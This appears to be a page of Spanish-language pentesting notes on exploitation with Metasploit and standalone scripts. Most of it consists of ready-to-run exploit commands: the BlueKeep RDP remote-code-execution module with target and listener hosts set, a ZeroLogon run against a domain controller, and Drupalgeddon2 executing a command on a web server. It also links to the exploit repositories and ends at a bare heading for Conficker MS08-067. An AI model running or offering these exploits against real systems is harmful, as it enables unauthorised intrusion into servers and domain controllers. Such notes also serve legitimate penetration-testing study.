 ```yaml
---
layout: article
title: Pentesting - Explotación [Metasploit]
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```

<h2>Escaneo de puertos</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">RDP - 3389</div>
</div>

**Bluekeep**

~~~bash
use use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOST 192.168.1.100
set LHOST 192.168.1.150
run
~~~

~~~bash

~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">CVEs</div>
</div>


**CVE-2020-1472 - ZeroLogon**

[https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472](https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472)

~~~bash
./zerologon.py example.local DC 10.11.1.220
~~~

**CVE-2018-7600 - Drupal 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x? < 7.58 / < 6.x?**

Exploit: [https://github.com/dreadlocked/Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

~~~bash
./drupalgeddon2-customizable-beta.rb -u http://10.11.1.50/ -v 7 -c id
~~~

**CVE-2008-4250 Conficker - MS08-67**